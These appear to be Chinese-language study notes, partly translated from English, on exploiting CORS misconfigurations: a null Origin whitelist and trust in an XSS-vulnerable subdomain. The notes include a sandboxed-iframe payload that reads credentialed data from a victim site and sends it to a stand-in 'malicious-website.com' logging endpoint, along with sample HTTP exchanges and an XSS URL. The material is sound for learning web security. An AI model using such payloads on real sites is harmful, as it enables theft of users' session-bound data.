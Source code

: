 

在這種情況下，攻擊者可以使用各種技巧來產生跨源請求(cross-origin request)
- 在 Origin header 中含有 `null` 的值。這將滿足 whitelist 的要求，從而實現 cross-domain access
- 例如，這可以通過使用 sandboxed 的 `iframe` 來 `cross-origin` request of the form


(這個範例看起來有點奇怪，感覺不需要混淆才對。應該可以正常關閉 iframe 的 tag 才對吧？)
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

---------------

## 通過 CORS 信任關係來挖掘 XSS
即使是正確的 CORS config 也會在兩個 origins 間建立信任關係
- 如果網站信任一個容易受到跨站腳本攻擊(XSS)的來源，攻擊者可以利用 XSS inject 一些 JavaScript，使 CORS 從信任易受攻擊的 Application 的網站搜尋敏感資料


給出以下 request：


```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果 server 的 respnse 是
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

然後一個攻擊者在 `subdomain.vulnerable-website.com` 上發現了 XSS 漏洞
- 就可以利用這個漏洞來獲取 API key，使用的 URL 如下：

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

---------------

